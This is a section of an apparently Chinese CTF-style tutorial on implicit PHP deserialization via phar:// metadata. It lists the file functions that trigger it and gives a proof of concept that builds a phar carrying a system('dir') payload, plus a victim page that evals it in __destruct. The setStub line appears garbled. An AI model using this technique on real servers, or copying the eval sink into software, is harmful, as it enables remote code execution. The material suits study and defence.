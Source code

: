 ### 4. 隐性反序列化

之前说的题目中都有明显的`unserialize`函数执行反序列化过程，基本上题目的方向非常明确，但有些情况即使没有`unserialize`函数，也会执行反序列化的过程。

#### 1.phar 的反序列化

`phar`存储的`meta-data`信息以序列化方式存储，当某些操作函数通过`phar://`伪协议解析`phar`文件时，就会隐性将文件中的数据数据反序列化，一旦参数可控，就可能构造 POP 触发漏洞。注意：**`php.ini` 中 `phar.readonly` 需要设置为 `off`。**

下面列出了一部分可以触发`phar`反序列化的函数。

```
//file 系类              
file  fileatime filectime   filetype    filesize    filegroup   fileperms   fileinode   filemtime   fileowner
file_exists file_get_contents   file_put_contents   fopen  
//is 系列
is_dir  is_executable   is_file is_link is_readable  is_writable    is_writeable
//其他  参数可以是 filename 的函数基本上都行
copy unlink stat readfile getimagesize  highlight_file   readgzfile   gzfile  sha1_file

```

执行漏洞的具体操作如下

```
// 步骤1：利用此页面生成phar
class A{
    public $name='system(\'dir\');';
}
 
$phar = new phar("B.phar");     // 后缀必须为phar
$phar->startBuffering();   // 对应stopBuffering()
$phar->setStub(""       */
/*设置stub，格式为xxx"  绕过检查 */
$a = new A();  // 对应上面的 A 类
$phar->setMetadata($a);    // 将自定义的 meta-data 存入 manifest
$phar->addFromString("flag.txt","flag");     // 添加要压缩的文件  这里可以写木马  可以执行命令
/* $phar->addFromString("flag.txt",""); */
$phar->stopBuffering();   //签名自动计算
// 步骤2 上传生成的 phar 文件

```

```
//当访问页面中有影响函数时 可以考虑 phar  反序列化
// 步骤3：访问此页面可触发反序列化
class A{
    public function __destruct(){eval($this->name);}
}
echo file_get_contents('phar://B.phar');   // 当执行影响函数时，则会反序列化 phar 文件
echo file_get_contents('phar://B.phar/flag.txt')      // 也可以包含phar中的内容

```
